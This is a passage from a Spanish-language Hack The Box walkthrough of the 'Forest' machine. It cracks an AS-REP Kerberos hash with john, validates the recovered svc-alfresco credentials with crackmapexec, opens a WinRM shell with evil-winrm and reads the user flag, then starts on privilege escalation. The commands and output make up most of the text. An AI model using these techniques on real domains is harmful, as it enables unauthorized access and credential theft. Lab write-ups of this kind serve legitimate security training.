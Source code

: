 Procedemos a crackear el hash y obtenemos unas credenciales `svc-alfresco:s3rvice`

```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 512/512 AVX512BW 16x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)
1g 0:00:00:06 DONE (2023-10-11 14:27) 0.1510g/s 617184p/s 617184c/s 617184C/s s521379846..s3r2s1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Validamos las credenciales y como el puerto `5985` se encuentra abierto podemos tratar de conectarnos por `winrm`

```bash
❯ crackmapexec winrm 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
SMB         10.10.10.161    5985   FOREST           [*] Windows 10.0 Build 14393 (name:FOREST) (domain:htb.local)
HTTP        10.10.10.161    5985   FOREST           [*] http://10.10.10.161:5985/wsman
WINRM       10.10.10.161    5985   FOREST           [+] htb.local\svc-alfresco:s3rvice (Pwn3d!)
```

Nos conectamos al servicio, despues nos dirigimos al directorio personal del usuario `svc-alfresco` y podemos visualizar la primera flag `user.txt`

```bash
❯ evil-winrm -i 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
Evil-WinRM* PS C:\Users\svc-alfresco\Documents> whoami
htb\svc-alfresco
Evil-WinRM* PS C:\Users\svc-alfresco\Documents> cd ..\Desktop
Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> type user.txt
a5bdfec1b06f0a66536a4227d3dfc27d
```

## ELEVACION DE PRIVILEGIOS [#](#elevacion-de-privilegios) {#elevacion-de-privilegios}


Como nos enfrentamos a un `DC` vamos a usar `BloodHound` para tratar de enumerar vias potenciales para elevar nuestros privilegios.
